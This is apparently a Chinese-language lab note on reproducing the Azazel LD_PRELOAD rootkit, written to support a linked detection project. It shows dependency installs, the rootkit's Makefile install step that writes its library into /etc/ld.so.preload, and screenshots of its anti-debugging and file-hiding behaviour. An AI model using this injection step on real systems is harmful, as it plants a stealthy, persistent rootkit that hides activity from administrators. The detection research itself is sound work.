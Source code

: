 检测实现代码地址：[__https://github.com/haozhuoD/detect-azazel/__](https://github.com/haozhuoD/detect-azazel/)

# 安装 azazel

环境: ubuntu20.04

```text
sudo apt-get install python      # 安装python
sudo apt-get install libpam0g-dev  # 安装pam库
sudo apt-get install libssh-dev     #安装ssh库
sudo apt-get install libpcap-dev
```

## Makefile

这是将编译好的.so文件加载 azazel 自己的动态链接库的Makefile

```text
INSTALL=/lib
install: all
    @echo [-] Initiating Installation Directory $(INSTALL)
    # 打印
    @test -d $(INSTALL) || mkdir $(INSTALL)
    # -d 参数：测试INSTALL是否未一个目录 如果不是目录那么我们就创建一个目录
    @echo [-] Installing azazel 
    # 打印
    @install -m 0755 libselinux.so $(INSTALL)/
    # 修改目录权限为 0755（用户具有读/写/执行权限，组用户和其它用户具有读写权限）
    # 并 将libselinux.so拷贝到INSTALL目录 
    @echo [-] Injecting azazel
    # 注入.so 到 预加载so  文件preload方式
    @echo $(INSTALL)/libselinux.so > /etc/ld.so.preload
```



## azazel攻击复现：

反调试：

基于ptrace的strace、ldd：（lsof、ps）

![](https://tcs-devops.aliyuncs.com/storage/112d1cd776797b8822f4de896b7f4db5ce5f?Signature=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJBcHBJRCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9hcHBJZCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9vcmdhbml6YXRpb25JZCI6IiIsImV4cCI6MTY1MDAzMTA3MCwiaWF0IjoxNjQ5NDI2MjcwLCJyZXNvdXJjZSI6Ii9zdG9yYWdlLzExMmQxY2Q3NzY3OTdiODgyMmY0ZGU4OTZiN2Y0ZGI1Y2U1ZiJ9._He8BWoS3Gie5TXxMzM28Dgn47uRNGxHfUvcouttkSM&download=image.png "")



隐藏文件和目录：

![](https://tcs-devops.aliyuncs.com/storage/112d5b9d1ab124c361a91069639af2858dbe?Signature=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJBcHBJRCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9hcHBJZCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9vcmdhbml6YXRpb25JZCI6IiIsImV4cCI6MTY1MDAzMTA3MCwiaWF0IjoxNjQ5NDI2MjcwLCJyZXNvdXJjZSI6Ii9zdG9yYWdlLzExMmQ1YjlkMWFiMTI0YzM2MWE5MTA2OTYzOWFmMjg1OGRiZSJ9.DDn8gzxqENL7qidsBFrBhd6xREeZetIiiJ7RJhTraKY&download=image.png "")

默认隐藏包含__的文件和目录，所以会导致重启时找不到部分文件造成不可逆的损害。

![](https://tcs-devops.aliyuncs.com/storage/112d5dc5ed27b15f3f87d86e6c494950ca6c?Signature=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJBcHBJRCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9hcHBJZCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9vcmdhbml6YXRpb25JZCI6IiIsImV4cCI6MTY1MDAzMTA3MCwiaWF0IjoxNjQ5NDI2MjcwLCJyZXNvdXJjZSI6Ii9zdG9yYWdlLzExMmQ1ZGM1ZWQyN2IxNWYzZjg3ZDg2ZTZjNDk0OTUwY2E2YyJ9.IaT7kyO3Lzcarcka65IscKviIB3dy9z79gGGeqbyxc8&download=image.png "")
